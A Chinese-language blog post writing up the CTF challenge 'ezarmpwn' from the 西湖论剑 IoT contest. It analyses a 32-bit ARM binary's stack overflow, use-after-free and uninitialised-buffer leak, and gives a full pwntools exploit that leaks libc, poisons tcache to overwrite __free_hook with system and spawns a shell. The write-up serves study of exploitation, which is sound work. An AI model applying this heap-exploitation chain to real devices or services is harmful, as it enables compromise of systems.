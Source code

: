 ```yaml
---
layout: post
title: 西湖论剑IoT闯关赛复现
description: 有幸参加西湖论剑的比赛，虽然比赛结果不太理想，但每次比赛都会有很大的收获，我决定将这些东西写下来作为分享，如果有错误请批评指正
categories:  IoT
---
```










<!-- more -->

### ezarmpwn

#### 分析程序

首先查看程序保护机制

32位程序

libc是2.30

没有canary（基本是栈溢出）

无PIE(果然ez)

![](/images/character13/ezarmpwn1.png)

#### 静态分析

**register**

输入的username长度没有限制，然后复制到dest上,可实现栈溢出

![](/images/character13/ezarmpwn2.png)

---



**Add函数** 

可添加 size<=0x70的heap（tcache,fastbin)

![](/images/character13/ezarmpwn4.png)

---

**Delete**

UAF漏洞

![](/images/character13/ezarmpwn5.png)

---

**modify**

修改dest，由于dest是0x40大小，可以溢出0x8个字节,同时注意到buf是没有初始化的，我们可以通过这个泄漏栈里面的数据

![](/images/character13/ezarmpwn6.png)

---

**Info**

info打印username和password



#### 利用分析

1.泄漏地址

由于程序有个printf打印username和passwd,可通过将\x00覆盖得到想要的地址

通过分析username可以泄漏地址，分析passwd得知通过modify函数可以泄漏libc

* 0xfffef084是passwd的地址,可以看到里面有libc的地址![](/images/character13/ezarmpwn7.png)

2.利用分析

* 栈溢出控制返回地址

* UAF漏洞(tcache,fastbin,unsortedbin) **这里是32位系统，fastbin大小是0-0x50** 

  由于版本是libc-2.30.so

  而且我们只能使用add和free,所以tcache bin attack无法完成

  如果是fastbin attack也不行，因为只能申请 0xf 次

  但是我们可以用 overchunk 的思想

  通过合并堆块0和1之后再分配一个大的堆块2(unsortedbin的大小)，这样就可以伪造堆块1了

  由于是UAF，所以free掉堆块1就可以进入tcache了

  然后free掉堆块2，再分配一次可以将tcache改为free_hook就可以分配进去了

#### exp

```c

from pwn import *


context.log_level="debug"
def info():
   p.sendlineafter("> ","2")


def play():
   p.sendlineafter("> ","1")


def add(index,size,note):
   play()
   p.sendlineafter("> ","1")
   p.sendafter(": ",str(index))
   p.sendlineafter(": ",str(size))
   p.sendafter(": ",note)


def delete(index):
   play()
   p.sendlineafter("> ","2")
   p.sendlineafter(": ",str(index))
   
p=process(["qemu-arm","-g","1234","-L",".","./pwn3"])
#p = remote("20.20.11.14", 9999)


un="aaaaa"
pd1="bbbbb"
pd2="bbbbb"
p.sendlineafter(":",un)
p.sendlineafter(":",pd1)
p.sendlineafter(":",pd2)
p.sendline("")


p.sendlineafter("> ","3")
p.sendlineafter(":","a"*0x20)
p.sendline("")


info()
p.recvuntil(": ")
libc=u32(p.recv(4))+0xff69cba0-0x044ba0-0xff68a248
# print hex(libc)


for i in range(9):
   add(i,0x40,"aaaa\n")
add(15,6,"a\n") #0x10
add(14,6,"a\n") #0x10
delete(15) 
delete(14) #tcache[0x10]=14->15
for i in range(9):
   delete(8-i) #fastbin=0->1 
free_hook = libc + 0x1479cc
system    = libc + 0x3a028
add(9,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(0)*3+p32(0x39)+"\n") #overchunk
delete(1) #tcache[0x10] = 1->14->15
delete(9)  
add(10,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(free_hook)*3+p32(0x39)+p32(libc+0x1479cc)+"\n")
add(11,8,"/bin/sh\x00")
add(12,8,p32(libc+0x3a028)+"\n")
# print hex(libc+0x1479cc)
delete(11)
p.interactive()
```

#### 参考

exp参考chamd5的wp,如果分析有错请批评指正

邮箱:VinadiakT@outlook.com



